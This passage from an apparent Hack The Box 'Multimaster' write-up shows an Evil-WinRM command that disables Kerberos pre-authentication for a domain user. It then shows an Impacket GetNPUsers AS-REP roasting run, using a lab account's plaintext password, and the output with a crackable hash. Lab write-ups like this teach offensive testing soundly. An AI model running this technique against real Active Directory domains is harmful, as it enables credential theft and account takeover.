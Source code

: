 ### Moving from `sbauer` to `jorden`

`*Evil-WinRM* PS C:\inetpub> Set-ADAccountControl -DoesNotRequirePreAuth $True jorden`

```text
zweilos@kalimaa:~/.local/bin$ python3 GetNPUsers.py -format hashcat -usersfile /home/zweilos/htb/multimaster/users -debug -dc-ip 10.10.10.179 MEGACORP/sbauer:D3veL0pM3nT!
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/zweilos/.local/lib/python3.8/site-packages/impacket
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User alice doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User andrew doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User cyork doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User dai doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
$krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae1152f9fe42b5c$112eb867bb4c8c06593c39d27e4ca1167692f7f061691c45cd1825291fd3ae9a7b8130e239d076b0f928fc42e7d683444cb8b3124d54711fbd72278e24cf75f5bd08351fc4b63e43ae9e5affac8b6b702eef582c720ed88855e6c9a6ac41ebe7b5b86fb4043f607a6d4a090022c471183e812d08501d49ae1d2f1c62d35816e95c98437d54e396a1b680b7836a6cad4c3af218d25187bd3ac4df45ffbc13359d7b952b7d841a89ac7a1c8c16ce5625dc03212af744371cb24c611c9ddf0da4c3de5740ea9cdaf09e113d23e9969d4107be3ecc2ceeed48f274f95e5d108ff504fe527ff86a71606d38f5
[+] Trying to connect to KDC at 10.10.10.179
[-] User jsmmons doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
[-] User lana doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User pmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
```